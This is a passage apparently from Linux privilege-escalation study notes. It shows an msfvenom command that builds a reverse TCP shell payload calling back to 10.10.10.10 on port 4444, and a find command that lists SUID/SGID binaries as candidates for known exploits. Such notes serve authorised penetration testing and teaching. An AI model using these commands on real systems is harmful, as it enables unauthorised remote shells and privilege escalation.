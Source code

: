 payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```



![image-20200814221014869](linuxPrivesc.assets/image-20200814221014869.png)





## SUID / SGID executions



#### known exploits

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```



![image-20200814221249539](linuxPrivesc.assets/image-20200814221249539.png)
